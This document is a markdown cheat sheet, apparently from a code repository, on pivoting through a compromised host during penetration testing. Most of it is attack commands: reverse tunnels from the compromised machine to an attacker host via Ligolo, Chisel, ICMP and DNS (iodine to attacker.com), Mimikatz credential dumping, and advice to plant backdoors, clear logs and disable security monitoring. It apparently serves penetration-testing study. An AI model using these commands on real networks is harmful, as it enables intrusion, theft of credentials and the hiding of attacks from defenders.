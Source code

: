 # Pivoting in Penetration Testing

## Introduction
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources. 

## Table of Contents
- [Types of Pivoting](#types-of-pivoting)
- [Pre Pivot](#pre-pivot)
  - [Compromise an Initial Host](#compromise-an-initial-host)
  - [Identify Network Interfaces](#identify-network-interfaces)
  - [Enumerate Internal Network](#enumerate-internal-network)
- [Pivoting](#pivoting)
  - [SSH Pivoting (Dynamic and Local Port Forwarding)](#ssh-pivoting-dynamic-and-local-port-forwarding)
  - [SSHuttle Pivoting](#sshuttle-pivoting)
  - [Ligolo (Auto Route Creation)](#ligolo-auto-route-creation)
  - [Chisel (Fast TCP/UDP Tunneling)](#chisel-fast-tcpudp-tunneling)
  - [Metasploit Pivoting](#metasploit-pivoting)
  - [Plink (PuTTY Link) Pivoting](#plink-putty-link-pivoting)
  - [RDP Pivoting](#rdp-pivoting)
  - [ICMP Tunneling](#icmp-tunneling)
  - [DNS Tunneling](#dns-tunneling)
- [Post Pivoting](#post-pivoting)
  - [Routing Traffic Through Compromised Host](#routing-traffic-through-compromised-host)
  - [Exploit Further and Move Laterally](#exploit-further-and-move-laterally)
  - [Maintain Access and Cover Tracks](#maintain-access-and-cover-tracks)

--- 
## Types of Pivoting
- **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
- **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
- **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
- **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
- **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
- **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
- **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
- **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
- **ICMP Tunneling** - Encapsulating data within ICMP packets.
- **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

--- 
# Pre Pivot 
- ## Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.
- ## Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```
  Identify internal IP ranges that may indicate private networks.

- ## Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).
--- 
# Pivoting
  - ## SSH Pivoting (Dynamic and Local Port Forwarding)
      - Improper pivot as some of the reuest will not work.
      - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
      - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  - ## SSHuttle Pivoting
      - Improper pivot as some of the reuest will not work.
      - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
      - Explained `sshuttle -r user@target internal_ip/24`.
  - ## Ligolo (Auto Route Creation)
      - Setup network configuration
        ```bash
            ip tuntap add user root mode tun ligolo
            ip link set ligolo up
        ```
      - On attacker's machine: `./ligolo -reverse -listen :9090`
      - On compromised machine: `./ligolo -connect attacker-ip:9090`
      - Type on proxy
        ```bash
        session
        start
        ifconfig
        ```
      - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
         ```bash
         ip route add 192.168.148.0/24 dev ligolo
         ip route list
         ```
  - ## Chisel (Fast TCP/UDP Tunneling)
      - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
      - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
        
  - ## Metasploit Pivoting
      - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
      - Use socks4a module to enable ProxyChains:
        ```bash
        use auxiliary/server/socks4a
        set SRVPORT 1080
        exploit
        ```
  - ## Plink (PuTTY Link) Pivoting
      - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  - ## RDP Pivoting
      - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  - ## ICMP Tunneling
      - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  - ## DNS Tunneling
      - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

---
# Post Pivoting
- ## Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

- ## Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

- ## Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.
